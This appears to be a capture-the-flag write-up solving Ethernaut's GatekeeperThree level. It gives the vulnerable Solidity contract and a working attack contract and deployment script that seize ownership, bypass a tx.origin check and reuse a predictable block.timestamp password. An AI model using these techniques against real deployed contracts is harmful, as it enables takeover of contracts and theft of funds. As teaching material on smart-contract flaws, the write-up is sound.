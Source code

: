 # Ethernaut Level 28 GatekeeperThree

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```

We have to pass the three gates, register as an entrant and pass the game. `gateOne()` requires that the transaction initiator should not be the `msg.sender`, so we need a middle layer to call the `enter()` function. In `gateTwo()`, we need to get the allowance from the `trick`. So we have to first call `createTrick()` to deploy the contract, then put in the correct `uint256 _password` to get the allowance. In `gateThree()`, we need to send the gate an amount of eth and the owner, which we can call `construct0r()` to claim, should not be payable.

Based on these thoughts, we can create the middle layer:

`MiddleLayer.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {GatekeeperThree} from "./GatekeeperThree.sol";

contract MiddleLayer {
    GatekeeperThree public target;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function attack() external payable{
        require (msg.value > 0.001 ether, "Insufficient Ether sent");
        (bool ok, ) = address(target).call{value: msg.value}(""); 
        require(ok);

        target.construct0r();
        target.createTrick();
        target.getAllowance(block.timestamp);

        target.enter();
    }
}
```

Notice that here we directly use `block.timestamp` as password, though we have `createTrick()` and initialized the password before. The `block.timestamp` is still going to match because these steps are in a single function `attack()`, and they will be in one single transaction and one single block. 

`GatekeeperThree.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {MiddleLayer} from "../src/MiddleLayer.sol";

contract GatekeeperThreeScript is Script {
    address constant GATE_ADDRESS = 0xXXXXXXXXX;
    MiddleLayer middleLayer;

    function run() external {
        vm.startBroadcast();
        middleLayer = new MiddleLayer(payable(GATE_ADDRESS));
        middleLayer.attack{value: 0.011 ether}();
        vm.stopBroadcast();
    }
}
```

